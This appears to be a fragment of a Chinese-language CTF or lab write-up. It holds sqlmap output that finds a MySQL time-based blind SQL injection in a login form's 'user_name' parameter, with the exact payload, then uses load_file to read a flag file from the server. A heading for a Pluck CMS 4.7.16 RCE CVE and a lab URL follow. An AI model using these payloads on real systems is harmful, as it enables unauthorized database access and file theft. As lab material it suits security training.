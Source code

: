 ```
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[05:11:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[05:11:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[05:11:06] [INFO] checking if the injection point on POST parameter 'user_name' is a false positive
POST parameter 'user_name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: user_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_name=1' AND (SELECT 3268 FROM (SELECT(SLEEP(5)))bfEZ) AND 'MHFf'='MHFf&user_password=2&login=
---
[05:11:46] [INFO] the back-end DBMS is MySQL
[05:11:46] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
back-end DBMS: MySQL >= 5.0.12
[05:11:47] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell> select load_file('/flag')
[05:11:56] [INFO] fetching SQL SELECT statement query output: 'select load_file('/flag')'
[05:11:56] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[05:12:37] [INFO] adjusting time delay to 2 seconds due to good response times
flag{a77f7a98-b34
[05:17:23] [ERROR] invalid character detected. retrying..
[05:17:23] [WARNING] increasing time delay to 3 seconds
5
[05:17:47] [ERROR] invalid character detected. retrying..
[05:17:47] [WARNING] increasing time delay to 4 seconds
-4541-87e7-108f33e8dad3}
select load_file('/flag'): 'flag{a77f7a98-b345-4541-87e7-108f33e8dad3}'
sql-shell> 

```

## CVE-2022-26965 Pluck-CMS-Pluck-4.7.16 后台RCE

http://eci-2zea3w7mdswy019i9but.cloudeci1.ichunqiu.com/?file=cm

![image-20230627090210602](%E9%9D%B6%E5%9C%BA.assets/image-20230627090210602.png)
